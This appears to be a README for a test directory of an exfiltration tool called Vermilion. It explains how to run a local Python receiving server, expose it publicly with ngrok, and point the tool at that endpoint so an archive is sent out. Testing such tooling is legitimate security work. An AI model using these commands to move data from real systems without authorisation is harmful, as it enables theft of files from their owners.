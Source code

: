 # Test Exfiltration Locally

This directory contains a simple http server writte in python to test exfiltration locally.  

I suggest using also [*ngrok*](https://ngrok.com/), [*Cloudflare Tunnels*](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/) or similar, to expose the exfiltration endpoint publicly for the tests.  

## Instructions  

Launch the python endpoint:  
```console
python3 endpoint.py
```  
Expose the endpoint server publicly via `ngrok`:  
```console
ngrok http 8089
```  

Launch Vermilion:  
```console
vermilion -e https://<your-ngrok-endpoint-here>
```  

If everything went well you should see the exported archive in the current directory!  




